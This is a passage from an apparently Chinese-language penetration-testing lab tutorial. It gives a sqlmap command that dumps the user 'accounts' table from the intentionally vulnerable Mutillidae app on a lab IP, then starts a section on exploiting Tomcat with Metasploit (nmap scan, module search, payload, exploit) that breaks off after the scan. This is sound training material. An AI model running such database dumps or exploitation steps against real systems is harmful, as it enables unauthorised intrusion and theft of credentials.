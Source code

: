 4.查看`accounts`表中用户信息

`sqlmap -u "http://192.168.52.131/mutillidae/index.php?page=user-info.php&username=jotto&password=jotto&user-info-php-submit-button=View+Account+Details" -p "username" -D "nowasp" -T "accounts" --dump`

![image-20220418183429636](/img/security/image-20220418183429636.png)

##### 1.7 使用metasploit渗透Tomcat

- 基本步骤

1、 使用nmap进行端口扫描
2、 使用search命令查找相关模块
3、 使用use调度模块
4、 使用info查看模块信息
5、 选择payload作为攻击
6、 设置攻击参数
7、 渗透攻击

- 实现

1.nmap扫描

![image-20220418193308278](/img/security/image-20220418193308278.png)
